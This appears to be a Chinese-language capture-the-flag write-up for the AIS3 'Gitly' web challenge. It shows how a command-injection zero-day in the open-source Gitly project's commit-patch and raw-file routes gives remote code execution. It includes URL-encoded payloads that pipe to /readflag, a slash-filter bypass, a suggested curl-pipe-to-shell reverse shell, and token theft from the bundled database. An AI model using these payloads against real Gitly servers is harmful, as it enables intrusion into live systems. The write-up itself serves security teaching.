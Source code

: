 # Gitly

* Category: Web
* Score: 500/500
* Solves: 5/247

## Description

[Gitly](https://github.com/vlang/gitly), a Light and fast GitHub/GitLab alternative written in V.

> Q. Am I supposed to find a 0day in the Gitly project?
> 
> A. Yes.

## Overview

目標很明顯是要找出 Gitly 的 0day，從 Dockerfile 來看可知一定要拿到 shell 才行。另外是 Dockerfile 還告訴你有個已知的 public repo 在 `/admin/gitly` 這個 path 底下。

## Solution

> 註: 寫這篇 writeup 時 Gitly 的最新 commit 是 [d0e1f3ad2fa3d76306a3de11642f5ff50e9e9ede](https://github.com/vlang/gitly/commit/d0e1f3ad2fa3d76306a3de11642f5ff50e9e9ede)

隨便點幾個檔案出來觀察可以發現 `*_routes.v` 的檔案裡面都定義了 http route 的 handler，例如以 `commit_routes.v` 來說可以看到[這兩行](https://github.com/vlang/gitly/blob/d0e1f3ad2fa3d76306a3de11642f5ff50e9e9ede/src/commit_routes.v#L8):

```v
['/api/v1/:user/:repo_name/:branch_name/commits/count']
fn (mut app App) handle_commits_count(username string, repo_name string, branch_name string) vweb.Result {
```

這代表 `/api/v1/a/b/c/commits/count` 的 request 會呼叫 `handle_commits_count("a", "b", "c")` 的意思。

之後就一個一個 route 往下翻看看哪個比較簡單也比較有機會打。例如我預期解找的是 [`/:username/:repo_name/commit/:hash`](https://github.com/vlang/gitly/blob/d0e1f3ad2fa3d76306a3de11642f5ff50e9e9ede/src/commit_routes.v#L79)。

它在 `hash.ends_with('.patch')` 的情況下會呼叫 `repo.get_commit_patch(commit_hash)`，而 `get_commit_patch` 的實作是[這樣](https://github.com/vlang/gitly/blob/d0e1f3ad2fa3d76306a3de11642f5ff50e9e9ede/src/repo_service.v#L658-L666)的:

```v
fn (r Repo) get_commit_patch(commit_hash string) ?string {
	patch := r.git('format-patch --stdout -1 ${commit_hash}')

	if patch == '' {
		return none
	}

	return patch
}
```

顯然有個 command injection，所以這邊有很多方法可以拿到 shell，不過因為是在 url 中所以都要 encode 一些特殊字元。

例如 `/admin/gitly/commit/%7Cid%20%23.patch` 可以用 pipe 執行 `id`，但 `/` 因為會被 url 參數分隔的原因所以 `/admin/gitly/commit/%7C%2freadflag%20%23.patch` 是沒用的。這邊可以用 `${PWD:0:1}readflag` 之類的方法繞過:

```bash
> curl -g 'http://chals1.ais3.org:25565/admin/gitly/commit/|${PWD:0:1}readflag%20%23.patch'
AIS3{so_many_bugs_so_easy_to_rce}
```

當然這也不是唯一的方法，你也可以用 `` ` `` (backtick) 字元裡面湊個 `curl ... | sh` 的 payload 然後用 reverse shell 也行。

另一個很多人都有用到的 payload: `/admin/gitly/raw/master/README.md%7C/readflag` ([source](https://github.com/vlang/gitly/blob/d0e1f3ad2fa3d76306a3de11642f5ff50e9e9ede/src/repo_routes.v#L530), 這個不用 escape `/` 很方便)

還有個方法是從給予的 `gitly.sqlite` 中 `select * from Token` 挖出 token，然後改 cookie `token=...` 就能變成登入狀態了。此時就能碰一些高權限的 api 了，但它也是一堆 command injection 所以方法也是差不多 XD。

例如 [`POST /new`](https://github.com/vlang/gitly/blob/d0e1f3ad2fa3d76306a3de11642f5ff50e9e9ede/src/repo_routes.v#L189) 可以提供 `clone_url`，讓它回傳 `service=git-upload-pack` 就能通過 `check_git_repo_url` 的檢查，之後 `new_repo.clone()` 底下又有一個 [command injection](https://github.com/vlang/gitly/blob/d0e1f3ad2fa3d76306a3de11642f5ff50e9e9ede/src/repo_service.v#L730)，所以一樣能拿到 shell。
